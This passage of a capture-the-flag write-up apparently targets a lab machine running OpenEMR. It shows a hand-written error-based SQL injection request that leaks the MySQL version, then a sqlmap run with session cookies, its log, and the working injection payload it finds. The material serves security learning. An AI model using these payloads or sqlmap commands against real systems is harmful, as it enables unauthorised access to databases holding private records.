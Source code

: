 We can do the SQL injection manually like the following and extract information like the database server version.

```
GET /portal/find_appt_popup_user.php?catid=1'+AND+(SELECT+0+FROM(SELECT+COUNT(*),CONCAT(%40%40VERSION,FLOOR(RAND(0)*2))x+FROM+INFORMATION_SCHEMA.PLUGINS+GROUP+BY+x)a)--+-
[...]
Duplicate entry '5.7.30-0ubuntu0.18.04.11' for key '&lt;group_key&gt;'
```

But instead we'll use sqlmap to speed up the exploitation of this box. We can see here that sqlmap has identified the injection point for the vulnerability and it is error-based so it should be quick to dump the contents of the database.

```
snowscan@kali:~/htb/cache$ sqlmap -u "http://hms.htb/portal/find_appt_popup_user.php?catid=*" --cookie="OpenEMR=vp4f9asgbv507vpt84cioecmbg; PHPSESSID=cs1o3vot21n4odtira0s19iqu1" --technique E --dbms=mysql        ___
       __H__
 ___ ___[']_____ ___ ___  {1.4.4#stable}
|_ -| . [.]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 09:32:35 /2020-05-10/

custom injection marker ('*') found in option '-u'. Do you want to process it? [Y/n/q] 
[09:32:37] [WARNING] it seems that you've provided empty parameter value(s) for testing. Please, always use only valid parameter values so sqlmap could be able to run properly
[09:32:37] [INFO] testing connection to the target URL
[09:32:37] [INFO] heuristic (basic) test shows that URI parameter '#1*' might be injectable (possible DBMS: 'MySQL')
[09:32:37] [INFO] testing for SQL injection on URI parameter '#1*'
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] 
[09:32:40] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[09:32:40] [WARNING] reflective value(s) found and filtering out
[09:32:43] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
[09:32:46] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[09:32:49] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
[09:32:52] [INFO] testing 'MySQL >= 5.7.8 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (JSON_KEYS)'
[09:32:55] [INFO] testing 'MySQL >= 5.7.8 OR error-based - WHERE or HAVING clause (JSON_KEYS)'
[09:32:58] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[09:33:01] [INFO] URI parameter '#1*' is 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)' injectable 
URI parameter '#1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total of 346 HTTP(s) requests:
---
Parameter: #1* (URI)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: http://hms.htb:80/portal/find_appt_popup_user.php?catid='||(SELECT 0x426c764c WHERE 3030=3030 AND (SELECT 8964 FROM(SELECT COUNT(*),CONCAT(0x7176786a71,(SELECT (ELT(8964=8964,1))),0x71716b7871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a))||'
---
[09:33:16] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0
```